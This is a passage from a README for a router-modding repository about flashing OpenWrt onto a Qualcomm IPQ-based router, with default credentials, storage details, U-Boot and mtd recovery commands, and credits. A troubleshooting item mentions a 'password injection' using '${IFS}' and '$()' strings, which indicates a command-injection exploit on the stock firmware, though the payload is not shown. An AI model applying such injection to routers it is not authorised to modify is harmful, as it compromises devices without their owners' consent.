|  |  |

| Wi-Fi Sniffer & Monitor Mode | Content Filtering & Policies |
| :---: | :---: |
|  |  |

---

## ⚙️ Network Configuration & Post-Install Setup

### 1. Default Access Credentials
* **Web Interface (LuCI):** `http://192.168.1.1`
* **SSH Host:** `192.168.1.1` (Port 22)
* **Default Username:** `root`
* **Default Password:** *(None / blank - set a new password on first login)*

### 2. Usable Storage Breakdown
Following the permanent sysupgrade, both stock NAND slots are merged into a unified storage space:
```text
Filesystem                Size      Used Available Use% Mounted on
/dev/ubi0_2             179.1M    268.0K    174.1M   0% /overlay
```
With **~174 MB** of free writable overlay storage, you can easily install packages via `opkg`:
* **AdGuard Home:** Network-wide DNS-level advertisement and tracker blocking.
* **WireGuard / OpenVPN:** High-performance encrypted tunnels.
* **SQM (Cake / fq_codel):** Smart Queue Management to eliminate bufferbloat for ultra-low latency gaming.

---

## 🚑 Troubleshooting & Emergency Recovery

### Issue: Cannot connect via SSH after password injection
* Verify your computer is assigned an IP in the router subnet:
  ```bash
  # Linux/macOS
  sudo ifconfig eth0 192.168.31.50 netmask 255.255.255.0
  # Windows
  netsh interface ip set address "Ethernet" static 192.168.31.50 255.255.255.0 192.168.31.1
  ```
* Ensure you copied the exact strings including `${IFS}` and `$()` without accidental trailing spaces.

### Issue: Router boots to "No Kernel Found" (U-Boot error)
Connect via UART serial console (115200 8N1) and reconfigure U-Boot environment variables:
```text
setenv mtdids nand0=nand0
setenv mtdparts 'mtdparts=nand0:0xE100000@0x1700000(rootfs)'
setenv bootcmd "ubi detach; ubi part rootfs; ubi read 0x46000000 kernel; bootm 0x46000000"
saveenv
boot
```

### Issue: Reverting back to Stock Boot Behavior
If you preserved stock NAND backups:
```bash
mtd -e /dev/mtd23 write /tmp/mtd23_rootfs.bin /dev/mtd23
mtd -e /dev/mtd24 write /tmp/mtd24_rootfs1.bin /dev/mtd24
fw_setenv bootcmd 'bootipq'
```

---

## 🤝 Credits & Open-Source Acknowledgments

This educational repository stands upon the shoulders of the embedded networking and open-source communities:
* **[DC VOLTAGE](https://github.com/dc-voltage)** — Project architecture, comprehensive documentation, testing, and script automation.
* **[@Sandiep](https://github.com/Sandiep)** — Outstanding work crafting and maintaining custom OpenWrt device trees and kernel support for Qualcomm IPQ50xx/IPQ95xx hardware.
* **[@themayankraut](https://github.com/themayankraut)** — Original automated dual-slot NAND detection logic and SSH flashing research.
* **[The OpenWrt Project](https://openwrt.org/)** — For providing the premier free, extensible Linux operating system for wireless routers.

---

## ⚖️ Disclaimer & License

> **EDUCATIONAL & RESEARCH USE ONLY:**
> This repository and its accompanying materials are published strictly for educational, research, and non-commercial homelab exploration. Modifying router firmware involves inherent risks, including voiding manufacturer warranty or rendering hardware inoperable. The authors and contributors assume no liability for damages resulting from the use or misuse of these instructions.

Distributed under the **GNU General Public License v3.0 (GPLv3)**. See [LICENSE](LICENSE) for details.
